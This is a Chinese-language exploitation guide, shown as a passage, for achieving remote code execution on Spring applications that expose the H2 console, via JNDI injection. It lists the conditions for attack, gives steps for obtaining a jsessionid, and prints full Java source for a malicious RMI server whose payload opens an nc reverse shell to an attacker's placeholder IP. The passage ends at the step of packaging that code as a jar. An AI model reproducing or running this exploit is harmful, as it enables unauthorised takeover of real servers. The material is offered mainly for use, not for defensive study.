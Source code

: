 ##### 利用条件

- 存在 `com.h2database.h2` 依赖（版本要求暂未知）
- spring 配置中启用 h2 console  `spring.h2.console.enabled=true`
- 目标可以请求攻击者的服务器（请求可出外网）
- JNDI 注入受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1（LDAP 方式）



##### 利用方法

**步骤一：访问路由获得 jsessionid**

直接访问目标开启 h2 console 的默认路由 `/h2-console`，目标会跳转到页面 `/h2-console/login.jsp?jsessionid=xxxxxx`，记录下实际的 `jsessionid=xxxxxx` 值。



**步骤二：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的JAVA代码

```
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port xxxxx");//RMI服务监听地址
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xxx.xxx.xxx.xxx xxxx >/tmp/f']).start()\")"));
         //反弹shell地址为xxx.xxx.xxx.xxx(ip地址)，端口为xxxx(端口地址)
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```



**步骤三：打包JAVA代码**

将上面反弹shell的JAVA代码进行打包成jar包
